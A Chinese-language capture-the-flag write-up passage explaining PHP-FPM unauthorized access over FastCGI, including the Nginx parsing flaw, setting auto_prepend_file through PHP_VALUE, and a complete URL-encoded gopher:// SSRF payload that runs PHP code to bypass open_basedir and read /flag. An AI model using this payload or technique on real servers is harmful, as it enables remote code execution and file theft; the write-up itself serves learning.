 这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

Nginx（IIS7）解析漏洞：fpm发现/var/www/html/favicon.ico/.php不存在，则去掉/.php，再判断/var/www/html/favicon.ico是否存在。显然这个文件是存在的，于是被作为PHP文件执行，导致解析漏洞。

在fpm某个版本之前，我们可以将SCRIPT_FILENAME的值指定为任意后缀文件，比如/etc/passwd；但后来，fpm的默认配置中增加了一个选项security.limit_extensions，只能以phpx结尾。由于这个配置项的限制，如果想利用PHP-FPM的未授权访问漏洞，首先就得找到一个已存在的PHP文件。

那么，为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制SCRIPT_FILENAME，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，auto_prepend_file和auto_append_file。

auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。

那么就有趣了，假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项allow_url_include）

那么，我们怎么设置auto_prepend_file的值？

这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

所以，我们最后传入如下环境变量：
   
    {
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }

exp：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

最后构造gopher协议即可
payload：

    gopher://10.0.199.11:9000/_%01%01%F6%FD%00%08%00%00%00%01%00%00%00%00%00%00%01%04%F6%FD%01%DC%00%00%0E%03CONTENT_LENGTH203%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04%F6%FD%00%00%00%00%01%05%F6%FD%00%CB%00%00%3C%3Fphp%20mkdir%28%27/tmp/fuck%27%29%3Bchdir%28%27/tmp/fuck%27%29%3Bini_set%28%27open_basedir%27%2C%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bchdir%28%27..%27%29%3Bini_set%28%27open_basedir%27%2C%27/%27%29%3Bprint_r%28scandir%28%27/%27%29%29%3Breadfile%28%27/flag%27%29%3B%3F%3E%01%05%F6%FD%00%00%00%00

里面还有一个知识点，open_basedir的绕过和disable_function的限制。
四个执行函数都被ban了，用readfile代替即可。
open_basedir绕过的姿势网上有很多，这里我用的是通过chdir()和ini_set()来进行跨路径访问，网上找姿势的时候记得这里题目是php7，有些老版本的是不行的。
参考链接：https://xz.aliyun.com/t/4720

好耶 学到许多
